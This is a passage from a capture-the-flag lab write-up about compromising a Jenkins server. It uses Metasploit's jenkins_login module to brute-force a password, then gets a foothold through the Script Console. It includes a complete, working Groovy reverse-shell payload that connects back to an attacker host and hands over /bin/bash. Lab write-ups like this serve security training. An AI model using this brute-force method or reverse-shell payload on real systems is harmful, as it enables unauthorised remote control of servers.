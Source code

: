 ```bash
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jan  7 11:11:26 2023 from 10.9.35.72'
aubreanna@internal:~$
```

> Jenkins is now accessible from the Kali host :

![1673106301591](image/READMI/1673106301591.png)

Using metasploit to brute-force the password :

### STEP 1 :

![1673106383633](image/READMI/1673106383633.png)

searching a jenkins , i found a jenkins_login number 10

#### STEP 2 :

![1673106456759](image/READMI/1673106456759.png)

> We must fill in the important information :

1. *PASS_FILE*
2. *RHOSTS*
3. *STOP_ON_ACCESS*
4. *USERNAME*

![1673106666799](image/READMI/1673106666799.png)

#### STEP 3 :

* Now we just write `run `& click clavier `entre `for brute forcing password !!!

![1673107271285](image/READMI/1673107271285.png)

So we found a password .

---

# Privilege Escalation :

we loging a Jenkins in browser .we have a Script Console format Groovy Script .

* We can use Java Groovy to get the reverse shell using Groovy payload .

  ```java
  String host="ip-vpn";
  int port=1234;
  String cmd="/bin/bash";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```
* Remove everything from that file and paste the copied content and click on“ R**un** ”.
